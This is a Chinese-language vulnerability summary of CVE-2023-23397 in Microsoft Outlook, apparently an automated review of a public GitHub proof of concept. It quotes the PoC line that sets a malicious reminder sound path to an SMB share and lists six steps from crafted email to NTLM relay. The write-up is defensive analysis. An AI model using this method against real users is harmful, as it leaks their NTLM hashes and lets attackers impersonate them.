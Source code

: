 ## CVE-2023-23397-Microsoft Outlook 权限提升漏洞

**漏洞编号:** CVE-2023-23397

**漏洞类型:** 权限提升

**影响应用:** Microsoft Outlook

**危害等级:** 高危，可能导致NTLM Relay攻击

**影响版本:** 受影响版本包括Microsoft Outlook 2013 SP1、2016、2019、Office LTSC 2021以及Microsoft 365 Apps for Enterprise的特定版本

**利用条件:** 攻击者需要能够发送特制的邮件给Outlook用户。

**POC 可用性:** 是

**投毒风险:** 0%

## 详情

CVE-2023-23397是一个Microsoft Outlook的权限提升漏洞，攻击者可以通过发送包含恶意Reminder属性的特制邮件，强制Outlook客户端连接到攻击者控制的SMB共享。这使得攻击者可以捕获受害者的NTLM哈希，并利用NTLM Relay攻击来冒充受害者。

**有效性:**
提供的POC代码利用MsgKit库创建一个包含恶意Reminder属性的.msg文件。`appointment.PidLidReminderFileParameter = @"\\127.0.0.1\malware";` 这一行设置了指向攻击者控制的SMB服务器的路径。当受害者打开此邮件时，Outlook会尝试连接到该SMB服务器，从而泄漏Net-NTLM哈希。

**投毒风险:**
分析提供的代码，没有发现明显的投毒代码。所有的代码都是围绕着创建和设置包含恶意`PidLidReminderFileParameter`属性的Outlook Appointment (.msg)文件，以触发NTLM哈希泄漏。因此，投毒风险为0%。

**利用方式:**
1.  攻击者使用POC代码生成包含恶意`PidLidReminderFileParameter`属性的.msg文件。
2.  攻击者将此.msg文件通过邮件发送给受害者。
3.  受害者在受影响的Outlook版本中打开此邮件。
4.  Outlook尝试连接到`PidLidReminderFileParameter`指定的SMB共享（例如，`\\127.0.0.1\malware`）。
5.  受害者的Net-NTLM哈希被发送到攻击者控制的SMB服务器。
6.  攻击者可以使用捕获的Net-NTLM哈希进行NTLM Relay攻击，冒充受害者访问网络资源。

根据搜索结果，此漏洞已被CISA列入已知被利用的漏洞目录，并且存在公开的利用方法。

**项目地址:** [alicangnll/CVE-2023-23397](https://github.com/alicangnll/CVE-2023-23397)

**漏洞详情:** [CVE-2023-23397](https://nvd.nist.gov/vuln/detail/CVE-2023-23397)